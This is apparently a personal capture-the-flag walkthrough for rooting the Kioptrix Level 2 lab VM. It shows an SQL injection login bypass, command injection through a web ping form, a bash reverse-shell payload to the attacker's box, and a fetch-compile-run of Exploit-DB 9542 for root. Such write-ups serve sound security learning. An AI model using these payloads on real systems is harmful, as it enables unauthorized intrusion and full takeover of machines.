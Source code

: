 # Objective for this Task - 
Gain Root access to a CentOS box.

# Helpful Information (Post Completion) -
- Kali IP : 10.0.2.15
- CentOS IP : 10.0.2.4
Commands are identified by $ at the beggining
--- --- --- 

# Kioptrix 2 
How to complete it

# Reconnisance
Firstly off the bat, we want to find the IP of the local device (Kali Box). 
``` 
$ ifconfig 
```

By doing this we should see the local device IP, as well as the loopback address.
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.2.15  netmask 255.255.255.0  broadcast 10.0.2.255
        inet6 fe80::a00:27ff:fe0e:348d  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:0e:34:8d  txqueuelen 1000  (Ethernet)
        RX packets 9  bytes 2694 (2.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 1390 (1.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 8  bytes 400 (400.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8  bytes 400 (400.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Since we now know the IP address, NMAP is our best friend! 
We want to hit NMAP with our IP address (10.0.2.15), with the subnetmask on the end (/24), this ensures NMAP scans the entire Subnet for other devices on the 10.0.2.X network.
```
$ nmap 10.0.2.15/24
```

This will show us all the IP addresses as well as open ports on the subnet, this will help us in the next part which is very helpful in finding the target machine. 
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-23 13:20 EDT
Nmap scan report for 10.0.2.1
Host is up (0.00063s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
53/tcp open  domain

Nmap scan report for 10.0.2.4
Host is up (0.00076s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
631/tcp  open  ipp
3306/tcp open  mysql

Nmap scan report for 10.0.2.15
Host is up (0.00063s latency).
All 1000 scanned ports on 10.0.2.15 are closed

Nmap done: 256 IP addresses (3 hosts up) scanned in 3.17 seconds
```

Here we can do some deducting, 10.0.2.1 only has Port 53 open, which isn't overly useful. 10.0.2.4 is looking much better, as it appears to be hosting something due to Port 443 (HTTPS) being open, which indicates to me that there is a Website running on it. It also has Port 3306 (MySQL) which is vulnerable to SQLI exploits, so it'll be good to test this out. 
```
10.0.2.4/index.php
```

So this Webpage has a very basic log-in prompt, and we can see from sending through a test Login with the Username (Admin) it shows it is returning from a database with the POST / GET interactions.

From the source, we can also see that it is running 
```Apache/2.0.52 (CentOS)``` which can be super helpful in exploting this machine.

# Exploitation
Since in recon we saw that this device has MySQL ports open, it would be a good starting point to try SQLI on the login fields. For this we will use any Username we desire, although I use Admin. 

SQLI will require us to put the following code into the password field, this code will trick SQL into thinking that this is the correct password granting us access. 
``` ' OR '1'='1 ```

Now that we're into the system, we need to figure out what we can explot further in here, we're met with a "Ping" search, where the User can input any IP and recieve the Ping results in the browser. 

However, upon doing a test ping, you will notice that the results look identical to if you did a ping on your devices local terminal. Comparision below.

Kali Box 8.8.8.8 ping
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=55 time=15.4 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=55 time=13.7 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=55 time=17.7 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=55 time=12.9 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3009ms
rtt min/avg/max/mdev = 12.913/14.936/17.688/1.823 ms
```

Website Tool 8.8.8.8 ping
```
8.8.8.8

PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=0 ttl=55 time=15.2 ms
64 bytes from 8.8.8.8: icmp_seq=1 ttl=55 time=12.9 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=55 time=16.0 ms

--- 8.8.8.8 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 12.901/14.710/16.016/1.324 ms, pipe 2
```

This means that it is running through a bash terminal on the backend, which means that we can ask the first request (the ping) but with a ; on the end of the reuqest, we can start a new request.

The Request
```8.8.8.8; ls```

The Result
```8.8.8.8; ls

PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=0 ttl=55 time=17.7 ms
64 bytes from 8.8.8.8: icmp_seq=1 ttl=55 time=15.7 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=55 time=14.6 ms

--- 8.8.8.8 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 14.607/16.036/17.729/1.292 ms, pipe 2
index.php
pingit.php
```

You can see that the request went through as planned, showing the 'ls' request on the end of it, as the bottom. This means that we can attempt to get access through this using a reverse shell. 

For the reverse shell to work, we will need to use netcat to listen on Port 443 on our Kali box, using this command. 
```$ nc -lvnp 443```

Then we will pass this through the web app to open the reverse shell.
```;bash -i >& /dev/tcp/10.0.2.15/443 0>&1```

You will now notice that the Kali box command prompt, should allow you to write directly to the server now, as you have just created a reverse shell conntaction. Test this out by running 
```$ whoami```

This should show you that you're the user Apache, which is infact the account on the Kioptrix Server, you can check what you're on by using the following command. 
```
$ -uname a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
```

Now that we know we're on the Kioptrix server, we can do one final thing and check the version of Linux that this machine is running. To do this we can use 
```
$ cat /etc/*elease
CentOS release 4.5 (Final)
```

# Privilege Escalation
We can now use all of this information to look for exploits on Exploit-DB relating to this version of Linux. 

Upon looking at https://www.exploit-db.com/exploits/9542 we can see that there is a valid exploit for CentOS 4.5. Take note of the EDB-ID and head back to your Kali terminal. Here you want to type in the following 
```$ searchsploit -m 9542```

This will save the exploit to your ```/home/kali/``` where you can then compile it via GCC compiling tool on Kali. You can do this by using the following command.

! Note - If you have troubles compiling the Exploit, use this to download the correct librarys on your Linux box ```$ sudo apt-get install gcc-multilib  ```
```$ gcc -m32 -Wl,--hash-style=both 9542.c -o 9542 ```

This will then compile it into a new file without the .c on the end, this means it's working and that it will work when placed on the other Kioptrix box.

Now have have to figure out how to get it onto the Kioptrix box.

On the Kali box, we want to run to open a temporary HTTP server, so we can transfer the files across to the Kioptrix server.
```$ python -m SimpleHTTPServer```

Now that we have a server set-up, we go back over to the Kioptrix terminal and chuck in the following commands, which should get up access to root!
```
$ wget 10.0.2.15:8000/9542
$ chmod +x 9542
$ ./9542
sh: no job control in this shell
# whoami
root
```

We're in, we're all sorted and now we're onto the next :^) 

### Disclaimer
These notes are for my own learning process.
